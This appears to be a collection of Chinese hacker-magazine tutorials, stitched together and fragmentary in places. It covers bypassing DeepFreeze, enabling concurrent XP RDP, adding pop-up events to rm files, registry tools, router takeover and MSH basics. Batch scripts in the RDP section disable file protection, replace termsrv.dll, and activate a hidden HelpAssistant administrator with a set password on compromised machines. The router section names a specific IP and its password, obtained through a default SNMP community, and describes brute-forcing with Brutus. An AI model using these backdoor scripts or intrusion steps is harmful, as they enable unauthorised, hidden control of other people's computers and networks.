既然不能得到密码，那就干脆绕过密码这一关，直接干掉 Persi0.sys 这个文件。思路是：利用纯 DOS 下操作不还原这个“DeepFreeze”特性，利用一个知道密码的 Persi0.sys 文件，替换掉原来的 Persi0.sys 文件。


由于不同版本差异，Persi0.sys 文件也不相同。可在虚拟机中安装并运行目标版本的 DeepFreeze，设置自己的登录密码，得到 Persi0.sys 文件，保存到引导型优盘中；并准备 NTFSPro.exe（用于访问 NTFS 分区）。若无优盘，也至少要有一个不还原分区用于存放 Persi0.sys，且系统安装有纯 DOS。

操作大意：在 BIOS 中改为优盘启动，进入纯 DOS 后运行 NTFSPro.exe，访问系统盘并重命名/删除 Persi0.sys，再把优盘中的 Persi0.sys 拷入。重启后可看到程序托盘图标变化，系统变为不还原状态。若要恢复，则在纯 DOS 下再恢复原始 Persi0.sys 文件。

第二，“DeepFreeze”的生成器中有一个生成“OTP 密码生成器”的选项，如图6。


## 傻瓜黑客

可是根据“DeepFreeze”登录窗口上的“OTP Token”生成一个万能密码。例如，OTP Token: 0037B00，生成 OTP Password: A02D98C0……OTP（One Time Password）为一次性密码。文中说明了定制代码（Customization Code）在企业版中的作用：用于配置管理器、控制台、客户端安装程序和命令行控制项等，并强调多个管理员需使用匹配的定制代码。

```bat
:thawed
@Echo 请不要修改坏冰
@Echo 警告!!! %date%%time%冰点处于不保护状态
\\Server\Warning\%ComputerName%.txt
@DFC /PassWord /VBOTFROZEN Goto END
:END
```

> 说明：PassWord 指的不是“冰点还原”的客户端密码，而是“DeepFreeze 企业版：OTP 密码生成器”的生成密码；`\\Server\Warning\%ComputerName%.txt` 指服务器共享目录中的告警文件。并解释了 Messenger 报警方式及若被破解后的处理建议。


第二，Deep Freeze 企业版中有控制台 Deep Freeze Enterprise Server Console（DF5Console.exe），可列出局域网中安装过客户端的机器，被修改状态后图标会显示大红叉，管理员可快速识别。

## 三、预防方法

第一，企业版目录下有 `DFC.EXE`，可查询冰点状态并进行控制，用于检测是否处于保护中，以便在被强行改动状态时报警。建议建立后缀为 `.vbe` 的脚本文件进行自动检查。


```vb
Set shell = WScript.CreateObject("WScript.Shell")
a = shell.Run("DFC.EXE get /stfrozen", 0, TRUE)
If a <> 0 Then
  Set b = WScript.CreateObject("WScript.Shell")
  For i = 0 To 5
    c = b.Run("net send * 冰点还原已经被破坏...", 0)
  Next
  msgbox "您现在使用的还原软件已经被破坏..."
End If
```

保存后把该脚本与对应版本 `DFC.EXE` 放到 `C:\WINDOWS` 并加入开机启动。文中提到可通过开启 Messenger 服务实现内网告警，也可写批处理通知收银台。

```bat
@ECHO OFF
DFC.EXE get /stfrozen
IF Errorlevel 1 GOTO frozen
IF Errorlevel 0 GOTO thawed
:frozen
@Echo 系统受冰点还原保护中
Goto END
```

上面对“冰点还原”的破解与防御方法进行了总结，希望在电脑安装了“冰点还原”后，遇到忘记密码等情况能有所帮助。

> 问答框（“呆呆虫问吧”）：包含诸如“QQ 登录不能输入密码怎么办？”、“使用瑞星 2006 防火墙后局域网和打印机异常怎么办？”等问题及解决建议。

# Windows XP SP2

# 让3389远程多用户同时登录

虽然关于远程多用户登录的文章多如牛毛，但在 XP 系统上实现 3389 登录一直是我们的愿望。以前我曾经拜读过沈阳老乡 ziHUAN 写的 WindowsXP 之 3389 篇，他写那篇文章的时候系统版本还停留在 XP SP1 的基础上。可现在已进入 XP SP2 新时代了，并且它又为我们带来了好的消息：在安装了 SP2 以后，您的 XP 系统将可以像那些服务器操作系统一样，供多人同时在不同地点登录了，虽然这个多人仅仅等于2人。

以上是 SP2 还处在 2055 版本的 Beta 测试的时候被公开的一个新特性。虽然在 2055 以后的 beta 版和微软发布的正式版本的 SP2 中，这个特性都不见了踪影，并发现无论如何也不能让两个用户同时登录——无论是同时登录两个远程桌面连接，还是一个远程桌面、一个本地桌面；无论是两者使用相同用户名，还是使用不同用户名，一概行不通！

其实找回的方法很简单，只要找到 2055 版本当中用于管理远程登录服务（Terminal Service）的系统文件，替换系统中 termsrv.dll 文件的方法，即可享受到这个新特性了。以下是具体步骤。

# 第一步：首要条件是您的系统版本是 WindowsXP SP2 版本。

XP 系统不同于 2000 系统的是，Terminal Services（即 3389 服务）是默认启动的。我们在命令提示符下输入 `netstat -an` 查看本地端口状态的时候，却没有发现 3389 端口。原因就在于没有开启“允许用户远程连接到这台计算机”选项（我的电脑→属性→远程）。当您再次用 `netstat -an` 查看本机所开端口的时候，3389 端口就已经打开了。


在命令提示符下修改注册表命令为：`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`。

# 第二步：在默认情况下，XP SP2 关闭了允许多用户同时登录的此项新特性。

你可以通过修改注册表打开该功能。在注册表中找到 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Terminal Server\Licensing Core`，建立一个 DWORD 值 `EnableConcurrentSessions`，键值为 `1`。命令行为：`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Licensing Core /v EnableConcurrentSessions /t REG_DWORD /d 00000001 /f`。

# 第三步：把 2055 版本当中用于管理远程登录服务（Terminal Service）的系统文件 termsrv.dll 文件移植到 XP SP2 系统中。

第1种方法：用替换系统文件 termsrv.dll 的方法。由于系统正在使用该文件，并且在默认状态下无法删除 Windows 系统程序文件，所以需要关闭 Windows 文件保护功能。在注册表编辑器中找到 `[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]`，将 `SFCDisable` 的键值修改为 `FFFFFF9D`。

在命令提示符下修改注册表命令为：`REG ADD HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon /v SFCDisable /t REG_DWORD /d 0xFFFFFF9D /f`。

```bat
@Echo Off
@REG ADD HKLM\SOFTWARE\Microsoft\Windows\NT\CurrentVersion\Winlogon /v SFCDisable /t REG_DWORD /d 0xFFFFFF9D /f
@copy c:\termsrv.dll c:\windows\system32\dllcache\termsrv.dll
@Rename c:\windows\system32\termsrv.dll termsrvq.dll
@copy c:\termsrv.dll c:\windows\system32\termsrv.dll
@sc config termservice start= auto
@net start termservice
@REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
@REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Licensing Core /v EnableConcurrentSessions /t REG_DWORD /d 00000001 /f
@Del c:\termsrv.dll
@net user HelpAssistant /active:yes
@net localgroup administrators HelpAssistant /add
@Shutdown -r -t 0
```

## 傻瓜黑客

termsrv.dll 文件，凡是原来有 TermSrv.DLL 的地方，就用 Build 2055 版本的 TermSrv.DLL 覆盖。以正常模式启动 Windows XP，如果系统的文件保护功能提示说 TermSrv.DLL 文件已被修改，并询问是否要复原，选择“否”。

第 3 种方法：对于我们这些搞黑客的，当然推荐操作简便、一切在命令行下运行了。这里我提供一个重新定向服务文件的方法（即修改 ServerDll 文件地址的方法），起到简便又实用的目的。首先把 2055 版本的 termsrv.dll 文件，重新命名为我们需要的（例如 termsrvhack.dll）；在注册表编辑器中找到 `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService\Parameters]`，将 “ServerDll” 数值数据修改为 “%SystemRoot%\System32\termsrvhack.dll”，如图2。


在命令提示符下修改注册表命令为：

`REG ADD HKLM\SYSTEM\CurrentControlSet\Services\TermService\Parameters /v ServiceDll /t REG_EXPAND_SZ /d %SystemRoot%\System32\termsrvhack.dll /f`

```bat
@Echo Off
@REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
@REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Licensing Core /v EnableConcurrentSessions /t REG_DWORD /d 00000001 /f
@REG ADD HKLM\SYSTEM\CurrentControlSet\Services\TermService\Parameters /v ServiceDll /t REG_EXPAND_SZ /d %SystemRoot%\System32\termsrvhack.dll /f
@Copy C:\termsrvhack.dll C:\Windows\system32\termsrvhack.dll
@Attrib +H +S +R C:\Windows\system32\termsrvhack.dll
@sc config termservice start= auto
@net start termservice
@del C:\termsrvhack.dll
@net user HelpAssistant /active:yes
@net user HelpAssistant hackerxfiles
@net localgroup administrators HelpAssistant /add
@shutdown -i -r -t 0
```

关键技术的疑点分析：第一，在上述的两个批处理文件中，对注册表的处理，我引进了一项“写入注册表”的新技术。不同于我以前文章中对注册表文件导入，或用 inf 实现对注册表的操作，故请大家仔细查看、慢慢体味。

ADD /? 查看帮助文件。请特别注意下面的问题：在对 Terminal Server 和 Windows NT 的中间有空格项的操作中，注意空格输入的格式为 “ ”，这个是经验之谈，请注意。或者使用如下格式，同样能够解决问题：

```bat
@echo off
setlocal
set regkey=HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Licensing Core
reg add %regkey% /v EnableConcurrentSessions /t REG_DWORD /d 1 /f
endlocal
```

- 对于添加管理员账户的操作，虽可在用户名后加“$”隐藏，但在命令提示符输入 `net user` 仍可显示，不够隐蔽。  
- 对于在登录界面隐藏用户名，建议使用 XP 自带的 HelpAssistant 账户，并将其加入管理员组。  
- 在 XP SP1 可通过 `shutdown -i` 注销后连接远程计算机；XP SP2 之后需要额外处理 `EnableConcurrentSessions`，并重启。  
- 远程连接时需注意防火墙和共享服务（如 `net stop sharedaccess`）。

```bat
REG ADD HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList /v HackerXFiles /t REG_DWORD /d 00000000 /f
```


第五，只有当 Windows XP 启用了欢迎屏幕、用户切换功能之后，远程桌面才能支持并发的用户访问。已使用 administrator 帐户和计算机物理接触用户的帐户，如果使用了上述两个帐户会弹出“由于帐户限制，您无法登录”的消息提示，如图3。第六，XP SP2 可供多人同时在不同地点登录，但这个所谓的多人仅仅等于 2 人，如图4。

如果有第三人远程连接计算机的话，会弹出“选择发送断开请求”的对话框，如图5，请求选择向正在连接操作计算机的两位用户中的哪位发出请求，对方的屏幕上将弹出“询问能否连接”的对话框，如图6。这个对话框的提示是英文的，原因是我所使用的 2055 版本的 termsrv.dll 文件是英文版的。


有个有趣的发现是，无论是使用哪个帐户登录，弹出的提示都是 CRACKER\HackBase，即本机物理接触管理员帐户。还有个重要的问题请注意：在收到“询问能否连接”对话框的时候，请尽快答复，不要不理不睬。在 20 秒内如果没有给出确切答复，系统将默认您同意对方的请求，自动断开现有连接。第七，允许多用户同时登录的此项新特性仅限于 XP SP2 上。

```bat
REG QUERY HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion /v BuildLab
REG QUERY HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion /v CSDVersion
```

对其进行 termsrv.dll 文件修改。这样就给我们出了个难题：如何在命令提示符下得到系统的版本，您可以使用如上命令……这也是判断为 XP SP2 版本的重要信息。本文笔者起笔在此前，讲的是 2005 年初 XP SP2 预想提供多用户远程登录的功能？这是因为有些菜鸟朋友经常用 QQ 询问我这个问题，我就系统地讲解下。

## 烦你一下——浅谈 rm&rmvb 文件中事件的添加与清除


最近家里装了宽带，速度好快啊，一天时间就下载了 2G 多的电影……当准备关闭它的时候，瑞星弹了出来，说拦截到了一个病毒。其实这是影音文件中的“事件（events）”造成的：可以将所有观看这些媒体文件的用户百分百弹出指定网站，不受普通弹窗过滤限制。

用户观看影音文件时（特别是 rm&rmvb 文件时）IE 自动弹出恶意网站，实际上是影音文件中被添加了弹出窗口事件。支持的播放环境包括超级解霸、RealPlay 系列、Winamp、Media Player Classic 等。恶意事件可在播放到指定时间点时触发链接。

我们以上面的语句为例：正常播放到第 20 秒，或者在 20 秒和 38 秒之间的任意时间，都会用外部浏览器打开 `http://www.hackerxfiles.net/` 这个网页。现在我们打开 rmedtgui.exe，选择 Open RealMedia File，加载影音文件，再通过 Merge Events 导入事件文件并保存。


```text
u 00:00:20.0 00:00:38.0 &&_rpexternal&&http://www.hackerxfiles.net/
```

事件的添加就说到这里。我们的目的是把恶意影音文件中的恶意事件去掉，具体怎么操作呢？新建一个空白文档，然后把它载入到影音文件中，即可将原有事件清除。需要注意的是，rm 中的事件除了弹出窗口之外，还可承载剪辑信息或标题，清除时可能一并去除。

```text
rmevents -i c:\test.rm -e c:\events.txt -o c:\tested.rm
```

### 操作 Windows 注册表的瑞士军刀

平时我们在入侵时经常要修改目标主机的注册表……今天我就给大家推荐几款操作 Windows 注册表文件的“瑞士军刀”。

> 参数说明提示框（关于 `-e`、是否全文匹配、大小写匹配、结果着色等说明）。

### 1. 在注册表中查找信息——Scanreg

对于注册表文件中的某些信息，例如一个很长的子键，我们可能根本就无法记住它……很多时候我们要借助注册表的查找功能进行查找，如图1。


```bash
H:\tools\regedit>scanreg
usage:
scanreg 1.05 ...
-s string ...
-k search keynames
-v search valuenames
-d search data
-e case sensitive
-r return only exact match
-n no color in output
...
```

但是如果我们还没有给肉鸡安装远程控制软件……在 cmd 下输入 scanreg，就会看到它的帮助提示，如图2。参照它给出的例子，我们可以很容易明白这款软件的具体用法。

> `-s` 指定关键字；`-r` 全文匹配；根键简写（如 HKLM/HKCU）；`-k` 查键名；`-v` 查键值；`-d` 查数据等参数说明。

例如：我们要查找键值为 ctfmon 的相关信息，我们可以输入：`scanreg -s ctfmon -v`，如图3。

```bash
H:\tools\regedit>scanreg -s ctfmon -v
Key   : "\\Software\\Microsoft\\Windows\\CurrentVersion\\Run"
Value : "ctfmon.exe"
...
End of search : 2 matching string(s) found.
```

如果是查找所有符合 ctfmon 的信息，可以输入 `scanreg -s ctfmon -k -v -d`，或 `scanreg -s ctfmon -kvd`（`-s` 可省略并用 `/s` 代替），如图4。

```bash
H:\tools\regedit>scanreg ctfmon -kvd
Key   : "\\Software\\Microsoft\\Windows\\CurrentVersion\\Run"
Value : "ctfmon.exe"
Data  : "C:\\WINDOWS\\system32\\CTFMON.EXE"
...
End of search : 3 matching string(s) found.
```

如果是要查找所有符合字符串 ctfmon 的信息，并且只想在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 下进行查找，可按格式输入：`scanreg /s ctfmon /r \Software\Microsoft\Windows\CurrentVersion\Run -k -v -d`，如图5。

```bash
H:\tools\regedit>scanreg /s ctfmon /r \Software\Microsoft\Windows\CurrentVersion\Run /kvd
...
End of search : 2 matching string(s) found.
```

如果是查找所有符合 ctfmon 的信息，并且结果要求区分大小写，可以输入：`scanreg ctfmon -kvdc`，如图6。

```bash
H:\tools\regedit>scanreg ctfmon -kvdc
Key   : "\\Software\\Microsoft\\Windows\\CurrentVersion\\Run"
Value : "ctfmon.exe"
...
End of search : 2 matching string(s) found.
```

要是想对结果进行进一步细化……并且结果要求区分大小写和进行全文匹配查找，可以输入 `scanreg ctfmon -kvdce`，如图7。

```text
H:\tools\regedit>scanreg ctfmon -kvdce
End of search : 0 matching string(s) found.

H:\tools\regedit>
```

图7

```text
HKLM:software\test>dir
  HKLM:software\test
  Last Modified: Monday, December 12, 2005 @ 16:14
  ClassName:<None>

    <DWORD> test

HKLM:software\test>type test
test = 1 (0x00000001)
HKLM:software\test>
```

图11

### 2．对注册表进行操作的瑞士军刀

### （1）Regshell

在 cmd 下输入 regshell，再输入 help 命令，就会看到该软件的帮助提示，如图8。

通过帮助文件，我们可以很容易上手。下面我就以在 “HKEY_LOCAL_MACHINE\Software” 下新建一子键 test，并在该子键下新建一 DWORD 值，名为 test，其值以 1 为例，简单演示一下它的使用方法。

首先，进入 software 子键：cd software，然后输入 edit，进入编辑状态，根据提示选择 1 新建一子键，输入键名 test，然后输入 99 退出编辑状态，如图9。

```text
H:\tools\regedit>regshell
Seattle Lab Registry Editor
Copyright (c) 1999 Seattle Lab, Inc.

HKLM:>help
...
help   Displays this screen.
exit   Exit this program.
HKLM:>
```

图8

再切换到新建的 test 子键：ck test（或者是 chkey test），输入 edit 后根据提示选择 “2”，再根据提示选择 “2” 新建一 DWORD 值，名字叫 test，其值为 “1”，完成后选择 “99” 退出编辑状态，如图10。

```text
HKLM:>cd software
HKLM:software>edit
1) New Key.    2) Edit Key Value.
3) Delete.
...
Enter Key Name : test
...
Enter a menu selection number <1 - 3> or 99 to Exit: 99
HKLM:software>
```

图9

```text
HKLM:software>ck test
HKLM:software\test>edit
1) New Key.    2) Edit Key Value.
3) Delete.
...
KEY VALUE TYPE
1) String   2) DWORD
Select 1 or 2 : 2
Enter DWORD Value Name: test
DWORD value : 1
...
HKLM:software\test>
```

图10

接着，用 dir 命令（或者是 ls、list 命令）查看此时 test 子键下的信息，看到有一个名为 test 的 DWORD 值，输入 type test 进行查看，如图11。

最后，删除 test 子键。先切换到它的上一层后输入 edit 命令进入编辑状态，根据提示选择 “3” 进入删除选项，再根据提示输入 “1” 表示删除子键，然后输入要删除的子键名 test，完成后输入 “99” 退出编辑状态，最后用 exit 命令退出本程序，如图12。

```text
HKLM:software\test>hklm:
HKLM:>cd software
HKLM:software>edit

1) New Key.    2) Edit Key Value.
3) Delete.
Enter a menu selection number <1 - 3> or 99 to Exit: 3
...
Enter Key Name : test
...
Enter a menu selection number <1 - 3> or 99 to Exit: 99

HKLM:software>exit
H:\tools\regedit>
```

图12

### （2）Regcmd

在 cmd 下输入 regcmd，再输入 “?”，就会看到它的帮助提示，如图13。

```text
E:\>regcmd
Regcmd 0.85a
Copyright (c) 2003 TIONMEI

\? /HELP        Show Help
DIR /LS /LIST   List current key level support /s ...
CD /CHDIR       Change key level
MD /MKDIR       Create key
RD /RMDIR       Delete key
NEW             Create value
EDIT            Edit value
TYPE            Type value's data
...
E:\>
```

图13

可以看到 regcmd 提供了比 regshell 更多的命令，而且 regcmd 最大的好处就是支持一些类似 DOS 的命令，例如你想返回当前子键的父键，可以用命令 `cd..`；返回根键，可以用命令：`cd\`。这里，我同样以在 “HKEY_LOCAL_MACHINE\Software” 下新建一子键 test，并在该子键下新建一 DWORD 值，名为 test，其值为 “1” 为例，简单演示一下它的使用方法：先切换到 “HKEY_LOCAL_MACHINE\Software” 子键下：hklm，cd software，然后输入 `md test` 新建一子键 test，如图14。

```text
>\hklm
>\hklm>cd software
>\hklm\software>md test
Key created successfully!
>\hklm\software>
```

图14

## 傻瓜黑客

接着切换到 test 子键下：`chdir test`，新建一键 test：`new test`，根据提示输入“1”表明其类型为 DWORD，再输入“1”表明其值为 16 进制（2 为十进制），然后输入 test 的值为“1”，最后根据提示输入“y”进行确认，整个过程如图15。

可以直接切换到 `HKLM\System\CurrentControlSet\Services` 子键下，`services1` 命令可以直接切换到 `HKLM\System\CurrentControlSet\Control\SafeBoot\Minimal` 子键下，`run` 命令又可以直接切换到 `HKLM\HkCU\Software\Microsoft\Windows\CurrentVersion\Run` 子键下，挺方便的，如图18。


图15


图18

然后输入 `dir` 命令（适合当前子键下信息较少时）查看当前子键下的信息，看到一名为 test 的 DWORD 值，其值为 16 进制的“1”，也可以用 `type test` 命令（适合当前子键下信息较多时）进行查看，如图16。


图16

最后，删除 test 子键。输入 `cd..` 返回上一层，输入 `rd test` 进行删除，如果想退出程序，可以继续输入：`exit`、`quit` 或者是 `bye`，如图17。


图17

## （3）regcmd2

从名字可以猜测它与 regcmd 应该差不多。事实上确实如此，regcmd2 只不过是界面不再是 regcmd 而已，其实功能与 regcmd 差不多，如图19。


图19

只要你能把 regcmd 给熟悉了，对于 regcmd2 也就能很快地上手。在此对于 regcmd2 的使用方法我就不多说了，感兴趣的读者可以自己亲自玩一下 regcmd2，就当是留给小菜们的作业吧！

在介绍了上述几款操作 Windows 注册表的小工具后，喜欢收集黑软的朋友，是不是也想将其放到你的黑客工具箱中呢？是呀！由于这几款工具，各具特色，并且小巧玲珑，真可谓是“麻雀虽小，五脏俱全”，确实是黑客爱好者们居家旅行必备之工具！堪称 Windows 注册表操作的“瑞士军刀”，自然是“凡人爱”了！

此外，由于 regcmd 提供了比 regshell 更多的命令，大家可以自己玩一下。像 `ver` 命令可以查看软件的版本号，`services` 命令……（本文涉及相关工具：regcmd.exe、regcmd2.exe、regshell.exe、scanreg.exe，光盘中有收录。）


路由器是所有计算机网络，包括同一 IP 网络的核心。它们是将组件连接到网络，将一个数据单元发送到下一目的地并选择路径的设备，它们为数据单元选择路由和网络传输点。路由器提供了出色的吞吐量，可用于连接网络，方便地传输带宽和高带宽数据。可想而知，如果你能控制路由器，相当于控制了整个网络。好，下面我来介绍两种方法（注：以下方法主要针对 Cisco 系列的路由器）。

## 1. 通过路由器团体字符串设置为 private 来获取密码

路由器是简单网络管理协议（SNMP）兼容的，它包含支持一组标准和专用 MIB 变量的 SNMP 代理。管理站点的开发人员需要准确的 MIB 树结构并在接收到完整的专用 MIB 信息之后，才能管理 MIB。除 SNMP 管理站点 IP 地址、团体名和访问权限之外的所有参数均可以从任何 SNMP 管理平台进行管理。如果团体字符串不存在，则会禁止对设备进行 SNMP 管理访问。

- 路由器的默认团体字符串包括：
- `public` —— 允许授权的管理站点检索 MIB 对象。
- `private` —— 允许授权的管理站点检索和修改 MIB 对象。

首先，打开工具 SolarWinds.2002 中的 IP Network Browser，这是一款可以扫描到交换机和路由器的工具；然后在“Beginning ip address”和“Ending ip address”中输入起始 IP 地址和结束 IP 地址，点击“Scan Address Range”，剩下的工作就交给程序了，不一会结果出来了；有一台路由器已经被扫描出来了，也可以将扫描的范围设置得大些，这样扫到路由器的机率也会高些。打开 SolarWinds.2002 中的“Download Config”，将 60.163.248.66 这台路由器的配置文件通过 TFTP 下载下来，在“Router Hostname or IP Address”输入：60.163.248.66，在“Community String”中输入：Private，在“Save config to”输入保存路径，在“TFTP Server Address”中输入本机 IP 地址，点击“Copy Config from Router/Switch to PC”，如图3。随后配置文件会通过本地 TFTP 下载到桌面。


然后，用 SolarWinds.2002 中的“Config Editor/Viewer”打开刚下载的配置文件，如图4。该路由器的团体字符串是 Private，路由器密码为 62513773。即使密码经过加密，也可使用“Router Password Decryption”进行解密，密钥会显示在“Decrypted Password”后面，如图5。


如果某台路由器的团体字符串不为 Private，使用图3方法下载配置文件时会弹出提示窗口，说明不能通过该方法获取路由器密码，如图6。


既然已经得到该路由器密码，就 Telnet 到路由器上看个究竟：运行“cmd”，Telnet 60.163.248.66，输入密码 62513773，再输入“en”，再次输入密码 62513773，进入特权模式。

```text
Router>en
Password:
```

现在这台路由器的生杀大权已经掌握在我们手中了，想干嘛就干嘛，不过千万别搞破坏哦！

## 2. 用 Brutus 软件来破解路由器密码

当某台路由器的团体字符串不为 Private，或团体字符串不存在时，就只能直接来破解路由器密码了。打开 Brutus，文件→导入→“Cisco-console”，在地址里输入 IP，在“Pass File”选择字典，点击开始，Brutus 即开始猜测密码（如图8）。破解过程通常较长，需要耐心。


### 在非管理员账户下运行 Windows 操作

Mickey

大家都知道“最小权限”是网络安全中一项非常重要的法则。经验告诉我们，要尽量少用管理员账户登录系统，这样可以免受很多攻击。我平时就是用隶属于 USERS 组的用户进行网络浏览、游戏、日常办公，但有些时候要安装软件、给同事开共享文件夹、修改系统时就很不方便了，当然您可以注销当前用户，用管理员账号登录系统来做相应的操作，再注销后用 USERS 组用户登录，可是，您不觉得这样很繁琐吗？

有人也许会说使用 runas 命令进行二次登录，但在默认情况下，用 runas 启动 explorer.exe 程序是无效果的，如图1。

虽然命令行下提示启动成功，可资源管理器并没有启动，这是因为当你在登录系统时，操作系统已经自动给你的 explorer.exe 分配好权限了。经过几天的研究，发现两种方法可以绕过这样的限制。

方法1：既然 runas 无法让 explorer.exe 启动，那我们可以让它启动 iexplore.exe 来打开 IE 浏览器，通过在 IE 浏览器里输入盘符，间接进行共享文件夹、安装软件、修改系统时间等操作（如图2、图3）。

方法2：之前提到过，Windows 默认情况下 runas 无法启动 explorer.exe，那就意味着我们只要稍作修改，就可以使用 runas 来启动了。


图5


图6


图7


图1


图2


图3


图4

先用管理员账号登录系统，打开 Windows 资源管理器，点击菜单栏的“工具”→“文件夹选项”→“查看”，勾选“在单独的进程中打开文件夹窗口”→“确定”，如图4。

经过这样的配置，我们以后就可以通过 runas 来启动 explorer.exe 了。以上只是本人平时使用 Windows 的一些小经验，欢迎大家在论坛上与我交流。

> 小编注：为让读者更好地理解，再以安装 RealPlayer 为例操作一遍。在用户权限是 USERS 的时候，提示当前用户权限不够，是不让安装这个程序的，如图5。如果我们是在命令行输入：runas /user:administrator RealPlayer10GOLD.exe，如图6，那么，就可以顺利进行安装了，如图7。


黑客也许真的和黑色有一种特殊的情结，漫长的黑夜里，当我们打开 cmd 的黑色界面，熟悉地操作着远方的肉鸡的时候，会更加体会到这一点。

前不久，微软公布了下一代命令行工具 msh 的 beta 版本，增加了一些新的命令和支持，今天我和大家一起与 msh 来一次亲密接触。

MSH 顾名思义是 microsoft command shell 的缩写，它和其它的 shell 一样有自己的概念和丰富的脚本支持，可支持 perl、python 等很多脚本语言。此外它还是一个构建在 .net framework 基础上的全面面向对象的编程开发系统。它依赖于 .net 对象反射的元素数据来使动态脚本运行，不仅对于文本管道输出，而且对于大多数处理数据排列的命令的界面也是一样的，通过这种渠道使脚本和命令的执行更准确。

MSH 支持所有的 CMD 命令，我们可以输入 command 让 msh 和 cmd 进行切换。但是 cmd 毕竟是 cmd，MSH 毕竟是 MSH。所以我们有必要去学习一下 msh。

## 一、MSH 扫盲班

- 1. 安装：我们要体验 MSH，首先要下载 MSH 的 beta 版本，另外最好电脑上有 .net framework 2.0 beta2 的支持。
- 2. 运行：我们安装完成后直接在“运行”中输入 msh，就可以开始我们的 msh 体验了。
- 3. MSH 的一些概念：主要概念就是 cmdlet 和 alias。前者是 MSH 中操作命令的称呼；后者是 cmdlet 的简称（别名），可通过 `get-alias` 查看别名与命令的关系。

## 二、MSH 体验班

有了上面的基础，下面我们开始体验之行吧。

### （一）操作进程和服务

各位黑友关注的一定是进程和服务的操作命令，下面我将一一介绍。在“运行”下输入 MSH，打开 msh，如图1。


- 1. **get-process**
  - alias: `gps` `ps`
  - 作用：查看本机运行进程，可查看 CPU 使用、PID 等信息（如图2）。

```text
MSH> get-process
Handles  NPM(K)  PM(K)  WS(K)  VM(M)  CPU(s)  Id  ProcessName
...
```

- 2. **stop-process**
  - alias: `spps` `kill`
  - 作用：结束某个进程
  - 用法：`spps/kill/stop-process 进程的PID`，例如：`spps 512`（QQ 的 PID）即可结束 QQ 进程。

- 3. **set-service**
  - alias: `gsv`
  - 作用：查看系统中的所有服务信息，类似于 CMD 下的 `net start` 命令。

- 4. **new-service**
  - 作用：在系统中安装新的服务。
  - 用法：`new-service [-service name] 服务名 [-pathtoexecutable] 可执行文件路径及文件名 [-displayname] 显示名称 [-description] 服务描述 [startuptype] 启动类型 [-credential]`
  - 示例：`new-service -ServiceName dddd -Pathtoexecutable "D:\桌面\hacker\bat2exec.exe" -displayName dddd -Starttype automatic`。

```text
MSH> new-service ...
new-service : A parameter cannot be found that matches parameter 'Starttype'.
...
```


- 5. **restart-service**
  - 作用：暂停某个服务并重新启动它。
  - 用法：`restart-service [服务名字]`

- 6. **stop-service**
  - 作用：终止某个服务，类似于 `net stop`。
  - 用法：`stop-service [服务]`

- 7. **resume-service**
  - 作用：继续执行某个被暂停的服务，类似于 `net start server`。
  - 用法：`resume-service [服务]`

- 8. **set-service**
  - 作用：设置某个服务信息，如服务名称、启动类型、显示名称等。
  - 用法：`set-service [-service name] 服务名 [startuptype] 启动类型 [-displayname] 显示名称 [-description] 服务描述`
  - 示例：`set-service termservice -description "不用就删除吧！"`。

### （二）操作磁盘

- 1. **get-drive**  
  alias: `gdr`  
  作用：返回系统中所有的盘符，注册表两个根键，当前的磁盘路径等。


```text
MSH> gdr

Name      Provider    Root
----      --------    ----
C         FileSystem  C:\
D         FileSystem  D:\
E         FileSystem  E:\
F         FileSystem  F:\
HKCU      Registry    HKEY_CURRENT_USER
HKLM      Registry    HKEY_LOCAL_MACHINE
J         FileSystem  J:\
```

图6。通过该命令可查看当前路径并得到 MSH 的默认路径。

- 2. **set-location**  
  alias: `sl cd chdir`  
  作用：转换路径，类似 `cd`，如输入 `cd \` 需要在 `cd` 和 `\` 之间加空格。

- 3. **get-location**  
  alias: `gl pwd`  
  作用：查看当前路径。

- 4. **push-location**  
  作用：放入堆栈。

- 5. **pop-location**  
  作用：出堆栈。  
  说明：先 `set-location c:\windows`，再输入 `push-location`；切换到其它路径后输入 `pop-location` 可返回原路径。

```text
set-location c:\windows
dir
push-location
set-location c:\windows\system32
dir
pop-location
```

### （三）文件的操作

- 1. **get-content**  
  alias: `gc cat type`  
  作用：查看文件内容。

- 2. **get-childitem**  
  alias: `gci`  
  作用：显示指定路径下的目录结构，类似 `cmd` 下的 `dir`。可查看文件/文件夹及其时间等信息。

- 3. **remove-item**  
  alias: `ri del erase rm rmdir rd`  
  作用：删除指定文件或文件夹（类似 `shift+del`，不进回收站）。

- 4. **copy-item**  
  alias: `cpi cp copy`  
  作用：复制文件到指定磁盘目录。参数 `-resource` 可连同文件夹内文件一起复制。

- 5. **move-item**  
  alias: `mi`  
  作用：移动指定文件到指定磁盘位置（类似 `move`，主要用于文件）。

- 6. **new-item**  
  alias: `ni`  
  作用：新建文件夹或文件（类似 `md`）。可在提示 `type` 时输入 `d` 建文件夹、`f` 建文件。

```text
MSH> new-item pp
(Type '?' for Help.)
Type: f

Directory: FileSystem::P:\Documents and Settings

Mode   LastWriteTime   Length Name
----   -------------   ------ ----
-a---  三月 04 09:26        0 pp
```

- 7. **rename-item**  
  alias: `rni ren`  
  作用：对文件进行重新命名操作。

- 8. **add-content**  
  alias: `ac`  
  作用：在指定文件中添加内容，类似 `echo content >> filename`。可按 `value[0]、value[1]...` 多行输入。

好了，MSH 整体体验到此结束。学习时注意 `get-command` 和 `get-alias` 等帮助命令。

> **问：** 我的 Windows 开机后，经常自动进入安全模式，怎么办？  
